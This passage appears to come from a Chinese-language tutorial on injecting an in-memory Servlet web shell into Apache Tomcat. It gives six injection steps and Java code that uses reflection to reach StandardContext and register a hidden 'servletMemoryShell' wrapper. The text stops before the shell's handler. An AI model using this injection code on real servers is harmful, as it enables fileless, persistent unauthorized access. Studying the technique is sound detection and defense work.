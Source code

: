 ## Achievement

### Idea

​	动态注入`Servlet`内存马的具体思路如下:

1. 调用`StandardContext.createWrapper`为`servlet`创建`wrapper`；
2. 配置`LoadOnStartup`启动优先级；
3. 配置`ServletName`；
4. 配置`ServletClass`；
5. `addChild`添加`wrapper`到`Context`；
6. `addServletMapping`添加映射。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ServletMemoryShellServlet", value = "/ServletMemoryShellServlet")
public class ServletMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            String servletMapping = standardContext.findServletMapping("servletMemoryShell");
            if (servletMapping != null) {
                return;
            }

            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName("servletMemoryShell");
            Servlet servletMemoryShell = new Servlet() {
                public void init(ServletConfig servletConfig) {
                }
```